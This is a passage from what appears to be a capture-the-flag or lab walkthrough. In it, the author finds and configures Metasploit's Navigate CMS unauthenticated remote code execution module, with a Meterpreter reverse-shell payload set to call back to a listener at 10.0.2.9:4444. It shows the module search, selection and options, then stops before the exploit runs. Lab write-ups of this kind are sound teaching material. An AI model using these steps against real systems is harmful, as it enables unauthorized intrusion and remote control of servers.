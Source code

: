 ```console
------------------------------------------------------------------------------- ---------------------------------
```

> Uiii... Remote Code Execution ❤️❤️❤️ Let's check it out in metasploit

## Exploit (Metasploit)

Search for "navigate cms" and use it

```console
msf6 > search navigate cms

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/multi/http/navigate_cms_rce  2018-09-26       excellent  Yes    Navigate CMS Unauthenticated Remote


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/navigate_cms_rce

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) > 
```

- check out the options 

```console
msf6 exploit(multi/http/navigate_cms_rce) > options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                         /wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.9         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```